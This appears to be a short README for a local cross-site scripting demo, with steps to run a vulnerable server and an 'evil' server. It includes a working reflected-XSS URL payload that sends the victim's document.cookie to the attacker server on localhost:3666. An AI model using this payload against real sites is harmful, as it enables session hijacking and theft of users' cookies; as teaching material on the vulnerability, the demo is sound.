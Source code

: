 # XSS Attack demo

Start the real server:

```
npm i
node app.js
```

Start the evil server in a new terminal session:

```
cd evilserver
node evil.js
```

Open the browser and send a malicious request:

```
http://localhost:3000?txid=TX999<script>new Image().src=`http://localhost:3666/evil?cookie=${document.cookie}`</script>
```

The cookie information will be sent to the malicious destination.
